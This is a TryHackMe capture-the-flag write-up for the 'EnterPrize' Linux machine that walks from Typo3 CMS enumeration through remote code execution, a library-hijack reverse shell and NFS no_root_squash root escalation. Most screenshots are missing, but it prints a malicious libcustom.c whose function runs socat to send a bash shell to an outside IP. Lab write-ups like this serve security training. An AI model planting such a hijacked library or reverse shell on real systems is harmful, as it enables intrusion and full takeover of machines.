

# EnterPrize TryHackMe Writeup
### Level: `Hard` | OS: `Linux`


## Scanning
We launch **nmap** to all ports, with script and software version.


## Enumeration
We access the web resource, but there is nothing.


We launch the **nikto** tool and find the file *"composer.json"*, these files usually reveal interesting information.


#### Contents of the file "composer.json"


It seems that there are leftover files from **CMS Typo3**, I check several paths but I can't find anything.... But maybe it is in another *subdomain* by virtual hosting (vhost).

We launch the **wfuzz** tool in vhost mode:


We add the subdomain to our */etc/hosts file*, access the new site and find the **Typo3 CMS** that we listed information in the previous file.


For this CMS I used the **[Typo3Scan](https://github.com/whoot/Typo3Scan)** tool to find vulnerabilities in this cms.


List the control panel:


We enter credentials by guessing, it seems to work, but the site has gone into maintenance mode and we no longer have access to the panel.


We launch **dirsearch**, list several interesting files and folders.



Access the *"/typo3conf"* directory and list the *"LocalConfiguration.old"* file.


#### Part of the content of the "LocalConfiguration.old" file


## Exploitation

In view of the above, I search for information about exploits and find this interesting **[article](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html)**.

We list the sections of the site, we find a form from which we could carry out the exploitation.


We follow the instructions in the article and create a payload to generate the file *"m3.php"* and execute commands through it.


#### Sending malicious request:


#### Proof of concept


#### Reverse shell


We make an enumeration in the only user that has home, we find some files and a binary that seems interesting.


We check the libraries, we see that it calls *"libcustom.so"*, we see that we also have write permissions, so it would make a lot of sense to replace the file with another illegitimate one.


#### Contents of file libcustom.c

```C
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void do_ping(){
    system("/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.62.222:5555", NULL, NULL);
}
```

We see that the configuration file has a symbolic link to a *"test.conf"* file in the folder, this file is not found but we can write it.


We run the **pspy64** tool and we see that every few minutes it executes the binary and with it our reverse shell.


We wait a few minutes, get shell as the user *"john"* and read the user flag.


## Privilege Escalation
In the previous enumeration, we saw that there is an nfs working internally, but we did not have access with the user *"www-data"*. 
In the evidence we see that it is vulnerable to **"no_root_squash"**, this vulnerability would allow us to be able to run a shared binary on our machine and get the same privileges of its SUID.


Hacemos port forwarding con **chisel** al servicio **NFS**.


We authenticate as root, create a malicious binary, compile and give it permissions.


Run the binary from the victim's nfs directory and you will become root.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
